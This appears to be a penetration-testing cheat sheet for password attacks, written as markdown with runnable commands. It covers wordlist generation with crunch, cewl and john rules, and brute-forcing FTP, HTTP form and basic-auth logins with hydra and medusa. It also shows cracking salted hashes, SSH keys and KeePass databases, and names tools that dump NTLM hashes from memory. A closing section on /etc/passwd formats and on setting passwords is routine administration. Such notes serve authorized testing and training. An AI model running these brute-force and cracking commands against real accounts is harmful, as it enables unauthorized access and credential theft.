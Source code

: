 # Cheetsheet

## Finding Passwords
```
grep -rl hash
grep -rl password
```

## Wordlist creation
```
crunch 6 6 0123456789ABCDEF -o list.txt
crunch 8 8 -t ,@@^^%%%
```
```
/usr/share/crunch/charset.lsr mixalpha -o  mixda.txt
```

## Wordlist using keywords from a site
```
cewl example.com -m 6 -w out.txt
```

## Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

## Tools
- pwdump
- fgdump
- windows credential editor (WCE) - Steal NTLM hashes from memory and auth modules

## Password Cracking
```
john hashes.txt
```

## Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

## FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

## HTTP Post
```
hydra -l none -P rockyou.txt 10.10.10.43 http-post-form
"/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```
## Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

## Salted Hash Cracking

### oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```

## RSA Private Key Password Recovery

```
ssh2john id_rsa > id_john
john id_john --wordlist=<PATH TO ROCKYOU.TXT>
```

## KeePass Password Recovery

```
keepass2john jeeves.kdbx > jeeves.hash
john jeeves.hash
```

## /etc/passwrd format

- [Understanding /etc/passwd File Format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
- [Linux Password & Shadow File Formats](https://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/shadow-file-formats.html)
- Password Field
  - Format: `$id$salt$hashed` (`$id$$hashed` means no salt)
  - `*` account cannot be used to log in
  - `!!` user doesn't have a password
  - ` ` user doesn't have a password
  - `x` password is stored in the shadow file
  - id
    - `$1$` is MD5
    - `$2a$` is Blowfish
    - `$2y$` is Blowfish
    - `$5$` is SHA-256
    - `$6$` is SHA-512

Verify
```
pwck -r /etc/passwd
pwck -r /etc/shadow
```

Edit
```
vipw -p
vipw -s
vipw -g
```

Manually create password
```
openssl passwd -1 -salt xyz  yourpass
makepasswd --clearfrom=- --crypt-md5 <<< YourPass
mkpasswd  -m sha-512 -s <<< YourPass
echo -e "md5crypt\npassword" | grub | grep -o "\$1.*"
perl -e 'use Crypt::PasswdMD5; print unix_md5_crypt("Password", "Salt"),"\n"'
```

Update password
```
echo "username:password" | chpasswd
```
```
perl -e 'print crypt("YourPasswd", "salt"),"\n"'
echo "username:encryptedPassWd"  | chpasswd -e
OR
useradd -p 'encryptedPassWd'  username
```
